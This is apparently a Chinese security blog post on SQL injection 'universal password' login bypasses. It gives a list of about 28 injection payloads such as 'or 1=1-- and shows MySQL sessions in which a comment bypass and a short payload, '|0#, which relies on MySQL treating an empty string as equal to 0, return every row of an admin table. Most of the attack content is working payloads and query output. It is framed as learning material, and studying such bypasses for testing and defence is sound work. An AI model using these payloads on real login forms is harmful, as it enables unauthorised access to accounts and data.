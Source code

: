 # 0x00 再谈万能密码登陆

万能密码基本大家都用过，各种各样的，如下

```
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--

```

其实根据前面的文章我们很容易看出 他的原理就是让我们的条件恒成立 至于为什么这么多种，就是根据语句的形势来闭合的，

这里面涉及到运算符的优先级，MySQL运算的特性，然后下面我们以几个例子来做做最另类的万能密码

```
mysql> select * from admin where name = '/*' and pass = '*/';
Empty set (0.00 sec)

```

注释绕过 


```
mysql> select * from admin where name = ''or 1=1-- ' and pass = '123';
    -> ;
+----+-----------+-------+
| id | name      | pass  |
+----+-----------+-------+
|  1 | admin     | admin |
|  2 | admin'111 | 11111 |
|  3 | admin'111 | 11    |
|  4 | admin'111 | 11    |
+----+-----------+-------+
4 rows in set (0.00 sec)

```

经典的`or 1=1-- ` 其中1=1恒为true 然后导致每条数据都成立返回


那么知道了这个原理怎么构造一个简单的万能密码呢 

```
mysql> select ''=0
    -> ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.00 sec)

mysql> select 1=0=0;
+-------+
| 1=0=0 |
+-------+
|     1 |
+-------+
1 row in set (0.30 sec)

```

我们可以看到在mysql中 空字符串'' 等于0 为1 也就是true 知道这个特性我们可以来构造我们的万能密码了


```
mysql> select * from admin where name = ''|0#'  and pass = '123';
    -> ;
+----+-----------+-------+
| id | name      | pass  |
+----+-----------+-------+
|  1 | admin     | admin |
|  2 | admin'111 | 11111 |
|  3 | admin'111 | 11    |
|  4 | admin'111 | 11    |
+----+-----------+-------+
4 rows in set, 5 warnings (0.00 sec)

```

仅仅用了 `'|0#` 个字符就能达到我们的效果 其他方法大家还可以测试,因为是自己发现的，然后问了几个师傅 发现ctf已经别人都用过了 ，不得不承认自己的知识量远远不够。




# 0x01 文末

#### 本文如有错误，请及时提醒，避免误导他人 

* author：404